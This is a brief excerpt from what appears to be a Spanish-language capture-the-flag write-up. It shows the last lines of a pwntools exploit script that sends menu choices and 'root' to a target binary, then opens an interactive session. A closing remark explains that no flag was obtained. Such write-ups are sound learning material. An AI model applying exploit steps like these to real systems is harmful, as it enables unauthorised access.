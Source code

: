 ```
target.sendline("4")
target.sendline("root")

"""
Pwned
"""
target.sendline("5")
target.interactive()
```

En estes caso no hay flag porque solo tenemos al binario y no a la maquina oficial.